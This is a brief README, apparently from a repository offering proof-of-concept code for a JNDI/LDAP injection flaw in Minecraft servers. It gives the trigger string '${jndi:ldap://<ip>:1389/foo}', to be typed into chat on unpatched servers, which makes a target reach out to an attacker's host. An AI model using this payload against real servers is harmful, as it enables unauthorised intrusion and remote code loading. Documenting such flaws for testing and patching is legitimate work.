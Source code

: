 # Proof of Concept code for the current LDAP vulnerability

Application of vulnerability can be seen by typing "`${jndi:ldap://<ip>:1389/foo}`" in chat, on Minecraft servers that haven't had this vulnerability patched.
